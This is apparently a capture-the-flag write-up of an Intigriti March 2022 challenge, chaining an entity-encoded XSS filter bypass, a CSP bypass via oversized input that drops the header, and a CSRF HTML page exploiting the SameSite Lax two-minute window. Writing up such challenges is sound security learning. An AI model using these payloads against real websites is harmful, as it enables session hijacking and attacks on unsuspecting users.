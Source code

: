 ```yaml
---
grand_parent: Write-ups
parent: 2022
title: March
nav_order: 2
---
```


## Write-up

### Challenge Analysis

Opening the challenge page, we are greeted with a simple form.

<img src="images/1.png">

Examining the source revealed no signs of JavaScript code, so the sink must be elsewhere.

<img src="images/2.png">

Submitting the form with some arbitrary values (`hello` for "PlainText" and `md5` for "Hashing algorithm"), we get the following response:

<img src="images/3.png">

The md5 hash is indeed of the supplied value `hello`. So let's try entering a simple XSS payload `<img src=x onerror=alert(1)>` in both of these fields:

<img src="images/4.png">

As seen from above, the `Hashing algorithm` field is using PHP [hash_file()](https://www.php.net/manual/en/function.hash-file.php) at the back-end, and the XSS payload does not trigger here. However, the XSS payload is nearly injected into the "PlainText" field except that our `onerror`'s value got replaced. This sanitization logic was provided to us in the previous screenshot:

```php
$stringa='/[(\`\)]/';
$variabile=preg_replace($stringa,'NotAllowedCaracter',$YourPayload);
```

With the regex used with [preg_replace()](https://www.php.net/manual/en/function.preg-replace.php), we are not allowed to use brackets nor backticks. However, we are able to bypass this by encoding these characters using [HTML entities](https://developer.mozilla.org/en-US/docs/Glossary/Entity). Let's encode the `()` in our original payload and it will now look like: `<img src=x onerror=alert&lpar;1&rpar;>`.

<img src="images/5.png">

Notice that our XSS payload is now as expected, but a new problem arises: [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP). This mitigates our basic XSS payload and we have to find ways to bypass it. We first have to look at the CSP policy that was sent in the HTTP response:

```http
HTTP/1.1 200 OK
...
content-security-policy: default-src 'none'; style-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; script-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; img-src 'self'
```

To help us better visualize if the policy has any flaws or gotchas, we can make use of [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/).

<img src="images/6.png">

The policy looks mostly correct as we cannot inject arbitrary `<script>` tags since a valid nonce is required each time the page is requested. We are also unable to insert inline JavaScript events such as `onload`, `onerror`, etc. since there is a lack of `unsafe-inline`. Finally, even though we are able to inject a `<base>` tag, this challenge does not import any form of JavaScript files at all.

This CSP policy is pretty sturdy for this challenge. Perhaps there is a different way?

---

Let's re-examine the request parameters that are sent when the form is submitted:

```http
POST /challenge/LoveReceiver.php HTTP/1.1
Host: challenge-0322.intigriti.io
Cookie: PHPSESSID=fvetnfcnhjv0o7ng13n3scq0me
...

token=a59ac904a1f98702776212653d74d0d3da7a4eadf4321092725c11b4a6ce6c72&FirstText=%3Cimg+src%3Dx+onerror%3Dalert%26lpar%3B1%26rpar%3B%3E&Hashing=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E
```

`token` is set to a 64-character string, `FirstText` and `Hashing` are set based on our input. After testing around for abit, I found that:
1. `token` accepts any arbitrary string as long as it is exactly 64-characters long
2. `PHPSESSID` **cookie** has to be present and the value can be any string of at least 1-character long

If either of these conditions are not fulfilled, then the server responds with a 403 status code. Thus, such a request is still valid:

```http
POST /challenge/LoveReceiver.php HTTP/1.1
Host: challenge-0322.intigriti.io
Cookie: PHPSESSID=x
...

token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&FirstText=%3Cimg+src%3Dx+onerror%3Dalert%26lpar%3B1%26rpar%3B%3E&Hashing=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E
```

Now, remember how entering a non-valid hashing algorithm revealed some verbose warning messages by PHP? What if the input string is a lengthy one?

From a "normal" string:

<img src="images/7.png">

To a "long" string:

<img src="images/8.png">

Notice anything different?

The `content-security-policy` header is **no longer returned** in the response header for the second request. This means that our XSS payload would work!

<img src="images/9.png">

---

Since we have the XSS working, it is time to craft an CSRF-based exploit. The following HTML file should be hosted on an attacker-controlled domain:

```html
<html>
  <body>
	<script>
		function submit() {
			document.forms[0].submit();
		}
		
		function exploit() {
			var newTab = window.open("https://challenge-0322.intigriti.io/challenge/LoveSender.php", "_blank");
			setTimeout(submit, 5000);
		}
	</script>

	<button onclick='exploit()'>Click me</button>
    <form action="https://challenge-0322.intigriti.io/challenge/LoveReceiver.php" method="POST">
      <input type="hidden" name="token" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
      <input type="hidden" name="FirstText" value="&lt;img&#32;src&#61;&quot;happy&#46;gif&quot;&#32;onload&#61;alert&amp;lpar&#59;document&#46;domain&amp;rpar&#59;&gt;" />
      <input type="hidden" name="Hashing" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
    </form>
  </body>
</html>
```

This relies on user interaction as they would need to click on the "Click me" button first. By doing so, the JavaScript in this file would open a new tab to the [https://challenge-0322.intigriti.io/challenge/LoveSender.php](https://challenge-0322.intigriti.io/challenge/LoveSender.php) page (the landing page containing the form). This step is essential as visiting this page would grant the victim a valid `PHPSESSID` cookie, which is required by the `LoveReceiver.php` page (vulnerable page) before the XSS payload would even load.

> ⚠ Furthermore, the `PHPSESSID` cookie was set without the [SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) attribute. This means that modern browsers such as Chrome and FireFox would implement a [2-minute buffer](https://hacks.mozilla.org/2020/08/changes-to-samesite-cookie-behavior/) window before setting this attribute as `SameSite=Lax`. 

Once a valid `PHPSESSID` cookie is obtained, we have 2 minutes before the `SameSite=Lax` setting kicks in, [preventing cross-site POST requests from sending cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite#lax). Now we have to quickly send our `POST` request to trigger the XSS payload. The HTML file above automatically sends this `POST` request after a 5-second delay (to ensure that the new cookie from the opened tab is processed). When the request is sent successfully, the XSS should trigger in the victim's context.

Here is the exploit in action:

<img src="images/10.gif">

---

## Further Reading
1. https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
2. https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite
3. https://stackoverflow.com/a/8028987
